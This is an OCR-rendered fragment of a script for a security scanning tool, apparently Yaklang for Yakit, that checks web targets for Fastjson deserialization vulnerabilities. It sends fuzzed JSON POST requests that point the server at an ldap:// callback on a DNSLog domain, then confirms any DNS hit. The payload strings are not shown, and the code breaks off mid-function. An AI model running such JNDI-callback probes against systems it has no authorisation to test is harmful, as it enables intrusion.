 ```Swift
        if err != nil {
            log.error("MITM FastJSON ERROR: %v", err)
        }
    }

    host, port, err = str.ParseStringToHostPort(url)
    addr = str.HostPort(host, port)

    rspIns, err = poc.ParseBytesToHTTPResponse(rsp)
    if err != nil {
        println(err)
        return
    }


    result = str.Join(rspIns.Header["Content-Type"], "; ")
    if (!str.MatchAllOfSubString(str.ToLower(result), "json")) && (!str.IsJsonResponse(rspIns)) {
        log.info("not a valid json type: %v", result)
        return
    }

    yakit_output(sprintf("Start to check fastjson vuln for: %v", addr))
    freq, err = fuzz.HTTPRequest(req)
    die(err)

    yakit_output("Start to fetch DNSLog")
    domain, token, err = risk.NewDNSLogDomain()// "ldap://127.0.0.1:123/123"
    if err != nil {
        yakit_output("Fetch DNSLog Failed: %s", err)
        return
    }
    yakit_output(sprintf("Fetch domain: %s",domain))
    reverseConnTarget = sprintf("ldap://%v/%v", domain, str.RandStr(10))
    freq, err = fuzz.HTTPRequest(req)
    if err != nil {
        yakit_output("build http request failed: %s", err)
        return
    }

    payloadRes = []
    fuzzInfo = nil
    riskLevel = ""
    checkVul = fn(host,port){
        genPayload = fn(payloadRaw,rev) {
            return fuzz.StringsWithParam(payloadRaw, {"reverseConnTarget":rev})[0]
        }
        testPayload = fn(payload) {
            yakit_output(sprintf("Send payload: %s",payload))
            freq = freq.FuzzMethod("POST").FuzzHTTPHeader("Content-Type", "application/json").FuzzPostRaw(payload)
            res, err = freq.Exec(httpool.https(isHttps), httpool.size(1))
            for result = range res {
                results, err = risk.CheckDNSLogByToken(token)
                if err != nil {
                    yakit_output(sprintf("check dnslog result failed: %s", err))
                    continue
                }
                if len(results) > 0 {
                    fuzzInfo = result
                    payloadRes = append(payloadRes,payload)
                    return true
                }
            }
```